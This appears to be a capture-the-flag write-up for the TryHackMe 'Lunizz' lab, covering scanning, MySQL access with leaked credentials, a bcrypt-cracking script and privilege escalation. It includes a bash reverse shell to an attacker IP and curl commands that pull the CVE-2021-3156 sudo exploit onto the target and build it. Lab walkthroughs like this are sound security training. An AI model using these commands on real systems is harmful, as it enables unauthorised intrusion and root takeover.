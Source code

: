 # [Lunizz CTF](https://tryhackme.com/room/lunizzctfnd)

> Lunizz CTF

## Scanning

scan the machine

```
nmap -A -T4 10.10.80.142
```

there are 4 open ports (80,3306,4444,5000)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f7fa2d8-9129-4b16-8519-f47db0f21c66)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee0f0de9-2ca6-4e20-a4f0-1f1fdbeeb792)

decode the message on port 4444, we have `extremesecurerootpassword` and `p@ssword`

try to connect with netcat

```
nc 10.10.80.142 4444
```

it seem root, but no...

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/755f517f-f044-4711-9f62-0fcf0b30c86c)

## HTTP

just a normal webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/773cff2e-4d82-4278-b255-f09eac30fd56)

## Enumeration

bruteforce the directory

```
gobuster dir -u http://10.10.80.142/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/11fe8e44-0b87-4937-bce9-8149c7f76b33)

check the /hidden directory, it like a upload page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1640cc87-20a7-4e11-99f5-69ca1162a01c)

and /whatever directory, it like a command injection

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f658b882-f052-49d3-9271-d5683c1841cb)

but all of above is not working

instructions.txt maybe more interested `runcheck:CTF_script_cave_changeme`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/327e91d7-60b2-49d8-b4f9-641434041f7d)

## Exploitation

connect to mysql server

```
mysql -u runcheck -p -h 10.10.80.142
CTF_script_cave_changeme
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e2144f9-f03d-4142-aa4a-1976a7c43bab)

```
SHOW DATABASES;
use runornot;
SHOW TABLES;
SELECT * FROM runcheck;
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/54f25b16-a6ca-489d-8369-41f6d408bacd)

hey, what is run level? what is run on root? doesn't this related to what we just found above

```
UPDATE runcheck SET run = 1;
```

comeback /whatever folder, the run level change to 1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0d6edfc2-e1f7-4eab-b95f-a55e00f06521)

create a reverse shell

```
nc -vlnp 1234
````

```
/bin/bash -c "bash -i >& /dev/tcp/10.18.37.45/1234 0>&1"
```

cool, gain foothold

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6a5a855-1ee3-41b7-b931-3125f51bda7f)

upgrade shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export SHELL=/bin/bash;export TERM=xterm-256color
Ctrl+Z
stty raw -echo; fg
```

```
ls -la /
```

i found a folder `proct` is owned by adam maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b5faf632-5435-41bc-b479-fa85373b11ca)

we have a subfolder pass and a python file inside

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/90ebe2f0-7ddb-4d1a-97d1-49e66767cf4c)

so crack the password of bcrypt

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

but it's not work because the password is salted, you must crack by hand

```
#!/usr/bin/env python3

import bcrypt
import base64

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
bcrypt_hash = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1') as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		print('\r', end='') # Clear previous line
		print(f'[*] Cracking hash: {hashAndSalt}', end='')

		if bcrypt_hash == hashAndSalt:
			print('\n[+] Cracked!')
			print(f'[+] Before hashed: {passw}')
			print(f'[+] After hashed: {hashAndSalt}')
			exit()
```

i said it will take you too long to get actual password... maybe more than 30 min for me :(

so, i found another approach at CVE-2021-3156

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f00a1b03-9013-49ca-b99e-86e08dfb0bea)

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
python3 -m http.server
```

on target machine

```
cd /tmp
curl http://10.18.37.45:8000/exploit.c -o exploit.c
curl http://10.18.37.45:8000/shellcode.c -o shellcode.c
curl http://10.18.37.45:8000/Makefile -o Makefile
make
./exploit 0
```



| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
